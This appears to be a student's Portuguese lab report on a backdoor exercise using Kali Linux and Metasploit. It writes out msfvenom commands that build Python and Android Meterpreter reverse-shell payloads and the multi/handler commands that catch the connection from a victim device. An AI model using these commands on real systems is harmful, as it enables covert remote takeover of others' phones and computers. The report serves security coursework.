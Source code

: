 # Backdoor
## Relatório da Prática

Para realizar a prática, segui as questões propostas no [tutorial](https://github.com/gleydson/BackdoorTutorial).

Não senti dificuldades para realizar a prática. O tutorial estava muito explicativo.

Na prática foi utilizado o SO Kali Linux, que já possui o ambiente pré configurado para o ataque.

### Realizando ataque em python

- Criando o payload

    Primeiramente, foi aberto o console do Metasploit Framework, ferramenta que axiliará na criação do backdoor, através do comando `msfconsole`.

    ![1](https://github.com/SamuelIGT/information-security/blob/master/Praticas/Backdoor/screenshots/1.PNG)

    Para realizar o ataque em ***python*** bastou apenas criar o payload utilizando o ***msfvenom*** através do comando:
    > `msfvenom -p python/meterpreter/reverse_tcp LHOST=SEU_IP LPORT=SUA_PORTA R > payload.py`
    
    ![2](https://github.com/SamuelIGT/information-security/blob/master/Praticas/Backdoor/screenshots/2.PNG)

    Também foi passado o código gerado no payload por um decodificador de ***base64***.

    ![3](https://github.com/SamuelIGT/information-security/blob/master/Praticas/Backdoor/screenshots/3.PNG)
    
### Realizando ataque em dispositivos android

1. Criando o payload
    O payload para android foi criado com o seguinte comando no ***msfvenom***:
    > `msfvenom -p android/meterpreter/reverse_tcp LHOST=SEU_IP LPORT=SUA_PORTA R > payload.apk`

    ![4](https://github.com/SamuelIGT/information-security/blob/master/Praticas/Backdoor/screenshots/4.PNG)

2. Iniciando o ataque
    A partir do payload criado, o ataque foi iniciado com os seguintes comandos:
    > `use multi/handler`

    > `set PAYLOAD android/meterpreter/reverse_tcp`

    > `set LHOST SEU_IP`

    > `set LPORT SUA_PORTA`
    
    > `exploit`

    ![5](https://github.com/SamuelIGT/information-security/blob/master/Praticas/Backdoor/screenshots/5.PNG)

3. Realizando os ataques
    Após abrir instalar o payload o meterpreter conseguiu acesso ao dispositivo vítima. Agora, a vítima esta pronta para ser atacada.

    ![6](https://github.com/SamuelIGT/information-security/blob/master/Praticas/Backdoor/screenshots/6.PNG)

    ![7](https://github.com/SamuelIGT/information-security/blob/master/Praticas/Backdoor/screenshots/7.PNG)
